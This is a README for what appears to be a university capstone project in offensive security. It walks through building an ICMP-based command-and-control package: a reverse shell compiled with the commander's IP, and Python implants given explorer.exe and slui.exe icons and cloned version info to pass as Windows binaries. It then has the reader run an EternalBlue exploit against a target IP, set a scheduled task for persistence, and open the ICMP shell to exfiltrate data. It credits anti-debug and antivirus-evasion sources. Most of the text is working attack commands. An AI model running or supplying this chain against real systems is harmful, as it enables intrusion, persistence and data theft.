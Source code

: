 # CS564 - Capstone Project

---

## Requirement

-   Linux host (we used the provided VM of Ubuntu)
-   Python 2.7
    -   [Installer (python.org)](https://www.python.org/downloads/release/python-2718/)
    -   [Pip installer](https://bootstrap.pypa.io/pip/2.7/get-pip.py)
    -   `impacket`: Run `python2 -m pip install impacket`
-   Python 3
-   Visual C++ 2008 compiler.
    -   [Installer (archive.org)](https://web.archive.org/web/20210106040224/https://download.microsoft.com/download/7/9/6/796EF2E4-801B-4FC4-AB28-B59FBF6D907B/VCForPython27.msi)

## Generating payload

We prepare a C2 package that communicates through ICMP protocol.

### Remote shell

To compile remote shell,
open Visual C++ 2008 32/64-bit Command Prompt, and type the
following. Remember to change `MY_IP` to the IP of commander.

```
cl.exe icmpsh-s.patch.c /D"MY_IP=\"192.168.191.128\""
```

### Python code


#### fileNew.py

```
pyinstaller --additional-hooks-dir C:\Python34\Lib\site-packages\_pyinstaller_hooks_contrib\hooks\stdhooks --onefile --paths=C:\python34\lib\site-packages -i "C:\Windows\explorer.exe" fileNew.py
```

#### fileUploader.py

```
pyinstaller --additional-hooks-dir C:\Python34\Lib\site-packages\_pyinstaller_hooks_contrib\hooks\stdhooks --hidden-import=queue --onefile --paths=C:\python34\lib\site-packages -i "C:\Windows\System32\slui.exe" fileUploader.py
```

Then use Resource Hacker to clone Version Info.

See output/compiled.zip for example.

## Infiltrate

Inside folder, `eBlue.py` is the exploit. Run

```
python2 eBlue.py 169.254.16.129
```

After running, the C2 package should now be stored inside the target system.
Additionally, a scheduled task is made to execute C2 in the future.

## Exfil

Due to the protocol limitation, we need to connect using Linux system and
run the following command to disable automatic ICMP reply.

```
sysctl -w net.ipv4.icmp_echo_ignore_all=1 >/dev/null
```

When the schedule task run, in order to connect,
execute on our host:

```
python3 icmpsh_m3.py 169.254.16.130 169.254.16.129
```


## Credits

-   `icmpsh-s.patch.c` and `icmpsh-m3.py` is based on [bdamele:icmpsh](https://github.com/bdamele/icmpsh)
-   `eBlue.py` from [Exploit-DB](https://www.exploit-db.com/exploits/42315)
-   Anti-debug techniques from [Anti-Debug Tricks](https://anti-debug.checkpoint.com/)
-   C obfuscation from [scrt:avcleaner](https://github.com/scrt/avcleaner)
